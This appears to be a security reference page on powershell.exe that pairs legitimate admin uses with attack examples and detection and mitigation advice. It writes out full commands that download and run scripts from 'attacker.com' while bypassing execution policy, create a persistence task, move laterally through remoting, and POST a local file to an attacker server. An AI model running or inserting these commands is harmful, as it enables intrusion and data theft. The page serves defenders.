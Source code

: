 # powershell.exe
## What is it?
*```powershell.exe``` is a Windows command-line shell and scripting language designed for system administration, automation, and configuration management.*
*It allows users to run scripts, execute commands, and manage system settings by providing access to the .NET framework and Windows Management Instrumentation (WMI).*
*PowerShell is widely used for legitimate administrative tasks but can also be misused for malicious purposes due to its powerful capabilities.*

## Legitimate Usage
- **System Administration** → Automate administrative tasks such as user management, system configuration, and software installation.
- **Task Automation** → Run scripts to automate repetitive tasks, such as system updates or report generation.
- **Configuration Management** → Administer and configure servers, applications, and other resources across a network.
- **Remote Management** → Use PowerShell Remoting to manage multiple systems remotely (via `Invoke-Command`, `Enter-PSSession`).

## How to abuse it
- **Execution of Malicious Scripts** → Attackers can use ```powershell.exe``` to run malicious scripts, including PowerShell-based payloads and exploits.
- **Bypassing Execution Policies** → PowerShell’s script execution policies can be bypassed (e.g., using `-ExecutionPolicy Bypass`) to run unsigned scripts on a system.
- **Privilege Escalation** → PowerShell can be used to escalate privileges by executing malicious code or exploiting vulnerabilities in the system.
- **Persistence Mechanism** → Attackers can use PowerShell scripts to maintain persistence by creating scheduled tasks or modifying startup entries.
- **Data Exfiltration** → PowerShell can be used to send stolen data over the network via HTTP, HTTPS, or SMB.

## Example attacks
### 1. Downloading and Executing a Malicious Payload
*Attackers can use ```powershell.exe``` to download and execute malicious payloads from a remote server.*
**Download and Execute PowerShell Script**

```
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://attacker.com/payload.ps1 -OutFile C:\temp\payload.ps1; C:\temp\payload.ps1"
```

**Effect:**
- Downloads the malicious PowerShell script from a remote server.
- Executes the script locally, potentially allowing the attacker to run commands or install malware.

### 2. Bypassing Execution Policies
*PowerShell’s execution policies can be bypassed using the `-ExecutionPolicy Bypass` flag to run unsigned scripts.*
**Bypass Execution Policy**

```
powershell.exe -ExecutionPolicy Bypass -Command "Invoke-WebRequest http://attacker.com/malicious.ps1 -OutFile C:\malicious.ps1; C:\malicious.ps1"
```

**Effect:**
- Allows the execution of unsigned PowerShell scripts, which would normally be blocked by default execution policies.

### 3. Persistence via Scheduled Task
*Attackers can create a scheduled task using PowerShell to run malicious scripts on a regular basis, ensuring persistence.*
**Create Scheduled Task for PowerShell Script Execution**

```
powershell.exe -Command "New-ScheduledTaskTrigger -AtStartup | New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-ExecutionPolicy Bypass -File C:\malicious.ps1' | Register-ScheduledTask -TaskName 'MaliciousTask'"
```

**Effect:**
- The task runs at system startup, ensuring the malicious script is executed every time the machine reboots.

### 4. Lateral Movement via PowerShell Remoting
*PowerShell Remoting allows attackers to run commands on remote systems and move laterally across the network.*
**Execute PowerShell Remotely on a Target System**

```
powershell.exe -Command "Enter-PSSession -ComputerName 192.168.1.100 -Credential (Get-Credential)"
```

**Effect:**
- Establishes a remote session on the target system to execute commands, exfiltrate data, or deploy malware.

### 5. Data Exfiltration Using PowerShell
*Attackers can use PowerShell to exfiltrate stolen data to a remote server.*
**Send Data to an Attacker-Controlled Server**

```
powershell.exe -Command "Invoke-WebRequest -Uri http://attacker.com/exfiltrate -Method POST -Body (Get-Content C:\SensitiveData.txt -Raw)"
```

**Effect:**
- Steals data from the system and sends it to a remote server controlled by the attacker.

# Detection & Mitigation
## Detection Methods
**Monitor PowerShell Execution**
- **Event ID 4688 (Process Creation)** → Detect when ```powershell.exe``` is executed, especially with suspicious arguments like `-ExecutionPolicy Bypass` or from unusual paths.
- **Monitor PowerShell Remoting** → Track usage of commands such as `Enter-PSSession` or `Invoke-Command`, which can be used for lateral movement.

**Analyze PowerShell Logs**
- **PowerShell Script Block Logging** → Enable PowerShell script block logging to capture the execution of potentially malicious scripts.
- **Event ID 4104 (PowerShell Script Execution)** → Monitor for PowerShell script execution that may not align with standard user behavior.

**Monitor Network Traffic**
- **Look for Unusual Network Connections** → Detect outbound connections to suspicious IP addresses, especially when PowerShell is used to exfiltrate data.

## Mitigation Strategies
- **Restrict PowerShell Access** → Use Group Policy to restrict access to PowerShell or block PowerShell execution altogether.
- **Use Application Whitelisting** → Implement application whitelisting tools like AppLocker or Device Guard to prevent unauthorized PowerShell scripts from running.
- **Implement Endpoint Protection** → Use endpoint protection tools to detect malicious PowerShell activity, such as known attack scripts or abnormal command usage.
- **PowerShell Constrained Language Mode** → Enable Constrained Language Mode to limit the capabilities of PowerShell on devices where it’s necessary.
- **Network Traffic Filtering** → Implement network traffic filtering to prevent unauthorized connections initiated by PowerShell scripts.
